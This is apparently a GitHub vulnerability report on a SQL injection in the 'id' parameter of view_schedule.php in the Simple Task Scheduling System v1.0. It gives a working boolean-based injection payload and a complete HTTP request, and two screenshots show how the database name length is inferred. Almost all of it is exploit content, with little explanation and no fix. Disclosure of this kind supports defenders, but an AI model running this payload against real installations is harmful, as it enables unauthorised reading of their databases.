 # Simple Task Scheduling System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15328/simple-task-scheduler-system-phpoop-free-source-code.html

The program is built using the xmapp-php5.6 version

Vulnerability File: /tss/admin/schedules/view_schedule.php

Vulnerability location: /tss/admin/schedules/view_schedule.php, id

db_name = tss_db;length=6

[+] Payload: /tss/admin/schedules/view_schedule.php?id=1%27%20and%20length(database())%20=6--+ // Leak place ---> id

```sql
GET /tss/admin/schedules/view_schedule.php?id=1%27%20and%20length(database())%20=6--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=tc6akb10bh652defck09t9eug4
Connection: close
```

When length (database ()) = 6
![image](https://user-images.githubusercontent.com/54017627/179392503-52820151-ff6f-423b-b799-091b410d969e.png)

When length (database ()) = 5
![image](https://user-images.githubusercontent.com/54017627/179392510-9e13472e-1102-4ca4-9000-db381a427bde.png)
